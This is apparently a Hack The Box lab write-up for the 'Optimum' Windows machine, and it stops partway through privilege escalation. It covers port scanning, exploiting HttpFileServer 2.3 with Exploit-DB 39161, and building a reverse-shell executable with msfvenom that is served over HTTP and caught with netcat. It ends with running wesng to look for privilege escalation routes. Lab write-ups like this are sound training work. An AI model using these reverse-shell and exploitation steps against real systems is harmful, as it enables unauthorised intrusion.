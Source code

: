 # Box: Optimum
# Level: Easy
# OS: Windows
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A -T4 -v -p- 10.129.111.57```

```
Nmap scan report for 10.129.111.57
Host is up (0.20s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.015 days (since Sun Sep 17 16:46:43 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.31 ms 10.10.14.1
2   197.47 ms 10.129.111.57

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 17:07:49 2023 -- 1 IP address (1 host up) scanned in 778.27 seconds
```
From the above scan, we have only 1 open port and that's the port that runs the http service. This means our enumeration today will be focused on port 80



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf65020f-9ec8-4168-8321-c1fbb958b182)

This webpage is being hosted by ```HttpFileServer```. 

I think there's an exploit for this version of ```HttpFileServer```, well lets check

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5fe5acce-0ed1-4c83-91a3-eed36f756e5f)

Well there is😅. Lets exploit right away



# Exploitation

Well, I found this great exploit, you can download it [here](https://www.exploit-db.com/exploits/39161)



So, we'll set the ```LHOST``` to our tun0 ip, we'll also set the ```LPORT``` to the port we plan on listening on

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/de36cb6b-4ff8-4fc4-a752-ca27abd72924)

Save the script.

As per the instruction in the script, we were told to host a ```nc.exe``` file, well I generated the ```.exe``` file using msfvenom

command:```msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/optimum]                                                                                                                                             
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.43 LPORT=443 -f exe -o nc.exe                                                                                                          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: nc.exe
```
Ensure you have your netcat listener ready before running the script

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/35697632-7b3e-4ef6-a9f3-c6e3b673af51)

Running the script requires the target's ip and port

command:```python2 39161.py 10.129.58.117 80```

Alongside running this script, we'll host the ```nc.exe``` file

command:```python3 -m http.server 80```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5b672fd6-0647-4542-85b7-ea610ab8a276)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/3f9625a2-cadc-4c0d-aa9f-c5b27dddfd01)

We didn't spawn a shell🥲, running the script again

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0b69eaaf-5c0c-43dd-a51f-967ee0e70029)

Checking our netcat listener,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/ae181f7e-1f08-435b-be9d-878565aa2d11)

We got a user shell🙂. Lets go ahead and escalate our privileges.



# Privilege Escalation

Lets run the  windows exploit suggester, you can get it [here](https://github.com/bitsadmin/wesng)

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4262d643-84bb-41aa-a462-f30ab610a048)
![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/715e4a57-6fb2-494f-b118-b4b68849886d)

First lets update the database,

command:```python3 wes.py --update```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/66d7d16f-b1f9-432d-a0f0-a6b7f4d49730)

Done.

Lets go back to the shell we got earlier and run the ```systeminfo``` command, save the output in a file say ```systeminfo.txt```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c735b9d0-4fbf-42bb-9a4b-f888eac61e3f)

Now, to run the script

command:```python3 wes.py path/to/systeminfo.txt -e```






















